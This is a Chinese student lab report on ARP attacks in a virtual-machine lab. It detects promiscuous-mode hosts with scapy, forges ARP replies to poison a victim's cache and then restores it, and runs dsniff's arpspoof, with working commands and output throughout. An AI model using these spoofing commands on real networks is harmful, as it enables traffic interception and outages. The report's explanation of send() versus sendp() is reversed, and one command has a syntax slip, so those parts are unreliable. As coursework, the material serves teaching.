


# 第四章实验

## 网络拓扑

  

名称 | IP地址 | MAC 地址
:-      |:-       |:-
 网关 Debian|172.16.111.1|08:00:27:e3:4b:32 /enp0s9
 受害者主机 kali |172.16.111.139|08:00:27:c1:f6:a5 /eth0
攻击者主机 kali |172.16.111.107|08:00:27:25:74:b8 /eth0

## 实验准备
### 安装 scapy

在攻击者主机上提前安装好 scapy    
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```
本实验使用 kali 自带的 scapy 框架     

  

## 实验一：检测局域网中的异常终端

### 实验过程
 step 1：在受害者主机上检查网卡的「混杂模式」是否启用，输出结果里应该没有出现 PROMISC 字符串      

 `ip link show enp0s3`      

    

```
 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:c1:f6:a5 brd ff:ff:ff:ff:ff:ff
```
step 2：在攻击者主机上开启 scapy    
 
`scapy`  

step 3：在 scapy 的交互式终端输入以下代码回车执行  

`pkt = promiscping("172.16.111.139")`    

输出结果为    

  

```python
>>> pkt = promiscping("172.16.111.139")
---------------------------------------------------------------------------
PermissionError                           Traceback (most recent call last)
<ipython-input-1-d5971c0acce8> in <module>
----> 1 pkt = promiscping("172.16.111.139")

/usr/lib/python3/dist-packages/scapy/layers/l2.py in promiscping(net, timeout, fake_bcast, **kargs)
    670     """Send ARP who-has requests to determine which hosts are in promiscuous mode
    671     promiscping(net, iface=conf.iface)"""
--> 672     ans, unans = srp(Ether(dst=fake_bcast) / ARP(pdst=net),
    673                      filter="arp and arp[7] = 2", timeout=timeout, iface_hint=net, **kargs)  # noqa: E501
    674     ans = ARPingResult(ans.res, name="PROMISCPing")

/usr/lib/python3/dist-packages/scapy/sendrecv.py in srp(x, promisc, iface, iface_hint, filter, nofilter, type, *args, **kargs)                                                                                                                          
    550     if iface is None and iface_hint is not None:
    551         iface = conf.route.route(iface_hint)[0]
--> 552     s = conf.L2socket(promisc=promisc, iface=iface,
    553                       filter=filter, nofilter=nofilter, type=type)                                                  
    554     result = sndrcv(s, x, *args, **kargs)

/usr/lib/python3/dist-packages/scapy/arch/linux.py in __init__(self, iface, type, promisc, filter, nofilter, monitor)
    396                 "The 'monitor' argument has no effect on native linux sockets."
    397             )
--> 398         self.ins = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(type))  # noqa: E501
    399         if not nofilter:
    400             if conf.except_filter:

/usr/lib/python3.10/socket.py in __init__(self, family, type, proto, fileno)
    230             if proto == -1:
    231                 proto = 0
--> 232         _socket.socket.__init__(self, family, type, proto, fileno)
    233         self._io_refs = 0
    234         self._closed = False

PermissionError: [Errno 1] Operation not permitted
>>> 

```

可以看到 Operation not permitted，此操作是需要 root 权限的，所以退出后`sudo scapy`，重新得到结果为：  
```python
>>> pkt = promiscping("172.16.111.139")
Begin emission:
Finished sending 1 packets.

Received 0 packets, got 0 answers, remaining 1 packets
>>> 
```

    

 step 4：回到受害者主机上开启网卡的『混杂模式』，手动开启该网卡的「混杂模式」  
   
`sudo ip link set eth0 promisc on`  

此时会发现输出结果里多出来了 PROMISC     

`ip link show eth0`  
```
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:c1:f6:a5 brd ff:ff:ff:ff:ff:ff

```

     

 step 5：回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异    

`pkt = promiscping("172.16.111.139")  `

第二次输出结果：    
```
>>> pkt = promiscping("172.16.111.139")
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
  08:00:27:c1:f6:a5 PcsCompu 172.16.111.139
```

    

step 6：在受害者主机上打开网卡的「混杂模式」后，攻击者的promiscping 操作得到了回应，返回的结果是受害者主机的 MAC 地址和 IP 地址。   
  
 `promiscping: Send ARP who-has requests to determine which hosts are in promiscuous mode`，promiscping 命令是为查看混杂模式主机而发送 ARP 请求，所以当受害者主机没有开启网卡的「混杂模式」时无法得到 ARP 请求响应。    

step 7：在受害者主机上手动关闭该网卡的「混杂模式」   

`sudo ip link set eth0 promisc off`    


## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 实验过程

- 以下代码在攻击者主机上的 scapy 交互式终端完成

step 1：获取当前局域网的网关 MAC 地址(08:00:27:e3:4b:32)，构造一个 ARP 请求    
`arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=172.16.111.1")`    
查看构造好的 ARP 请求报文详情    
`arpbroadcast.show()`    
```
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 08:00:27:25:74:b8
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 08:00:27:25:74:b8
     psrc= 172.16.111.107
     hwdst= 00:00:00:00:00:00
     pdst= 172.16.111.1

```

    

step 2：发送这个 ARP 广播请求     

`recved = srp(arpbroadcast, timeout=2)`  
```
>>> recved = srp(arpbroadcast, timeout=2)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
```
网关 MAC 地址如下:    
`gw_mac = recved[0][0][1].hwsrc`    

step 3：伪造网关的 ARP 响应包    
准备发送给受害者主机 172.16.111.139   
ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址     
```
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.139", hwdst="08:00:27:25:74:b8") 
```

step 4：发送上述伪造的 ARP 响应数据包到受害者主机   
`sendp(arpspoofed)`

  

但是受害者主机的 ARP 表并没有任何变化  

  

又尝试发送几次，在受害者主机上使用 wireshark 抓包发现没有任何反应    

  

尝试将sendp改为send发送    

  

此时在受害者主机上查看 ARP 缓存发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址    

  

  

```
ip neigh
# 172.16.111.1 dev eth0 lladdr 08:00:27:25:74:b8 STALE 
# 172.16.111.107 dev eth0 lladdr 08:00:27:25:74:b8 STALE 
```
但是和课本实验教程中不同的是 STALE 而不是 REACHABLE ，是不确定是否可达  

step 5：回到攻击者主机上的 scapy 交互式终端继续执行命令    

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e3:4b:32", pdst="172.16.111.139", hwdst="08:00:27:c1:f6:a5")
sendp(restorepkt1, count=100, inter=0.2)
## 伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e3:4b:32", psrc="172.16.111.139", hwsrc="08:00:27:c1:f6:a5")
sendp(restorepkt2, count=100, inter=0.2)
```
用send代替sendp才能发送成功  

  

  

step 6：此时在受害者主机上准备“刷新”网关 ARP 记录  
```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
  

  

### 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

- 使用 dsniff 进行 ARP劫持   
  - arpspoof 指定目标的 arp 欺骗重定向  

首先在攻击者主机 kali 上安装 dsniff  
```
 sudo apt update 
 sudo apt install dsniff
```
事先确定受害者主机可以联网，`ping baidu.com`  
在攻击者主机上执行以下命令：  
```
arpspoof -i eth0 -t <受害者主机IP地址> <网关IP地址> 
sudo arpspoof -i eth0 -t 172.16.111.139 172.16.111.1  
```

   


得到输出：  
`8:0:27:25:74:b8 8:0:27:c1:f6:a5 0806 42: arp reply 172.16.111.1 is-at 8:0:27:25:74:b8`   
这是一个 ARP 的 reply 包，8:0:27:c1:f6:a5 是受害者主机 MAC 地址，最后的 MAC 地址应该是网关地址，而这里 8:0:27:25:74:b8 是攻击者主机 MAC 地址，，这说明存在 ARP 欺骗。   

再返回受害者主机 `ping baidu.com`，无法连接    
`ping: baidu.com: Temporary failure in name resolution`    

    

## 问题及解决

### send & sendp  
根据scapy的官方使用教程,send()作用于第二层，而sendp()作用于第三层  
```
The send() function will send packets at layer 3.   
That is to say, it will handle routing and layer 2 for you. 
The sendp() function will work at layer 2. It’s up to you to choose the right interface and the right link layer protocol. 
```

ARP 缓存表记录着同一链路上其他主机的 IP 地址到 MAC 地址的映射关系，ARP 便是用来进行主机在发送帧前将目标 IP 地址转换为目标 MAC 地址的协议，可能是由于 ARP协议介于二层和三层之间的特殊性，所以在实验二中sendp发送数据包没有响应而用send却发送成功了。    

### STALE & REACHABLE  
在执行 `arp -an` 或者 `ip neigh` 查看 ARP缓存时，REACHABLE 是可达状态，表示地址解析成功，该邻居可达。      
STALE是失效状态，表示可达时间耗尽，未确定邻居是否可达。      

## 参考
[Usage of scapy](https://scapy.readthedocs.io/en/latest/usage.html)    
[在线课本第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)    
[About ARP](https://learningnetwork.cisco.com/s/question/0D53i00000Ksz5aCAB/is-arp-a-layer-2-or-3-protocol)  
